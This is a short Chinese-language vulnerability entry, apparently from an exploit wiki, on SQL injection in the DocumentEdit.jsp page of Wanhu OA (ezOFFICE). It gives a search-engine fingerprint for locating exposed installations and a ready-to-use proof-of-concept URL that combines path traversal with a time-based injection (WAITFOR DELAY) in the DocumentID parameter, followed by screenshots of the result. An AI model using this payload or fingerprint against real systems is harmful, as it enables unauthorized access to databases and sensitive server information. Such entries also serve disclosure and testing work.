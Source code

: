 # 万户OA DocumentEdit.jsp SQL注入漏洞

## 漏洞描述

万户OA DocumentEdit.jsp文件存在SQL注入漏洞，攻击者通过发送特殊的请求包可以对数据库进行SQL注入，获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220905141730301.png)

验证POC

```html
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1';WAITFOR%20DELAY%20'0:0:5'--
```

![img](/assets/PeiQi-Wiki/img/1662358602569-71e26a34-726b-4d75-b683-225884ec7b4a.png)
![img](/assets/PeiQi-Wiki/img/1662358633067-36051816-df31-4886-b3cb-69fa17dd5872.png)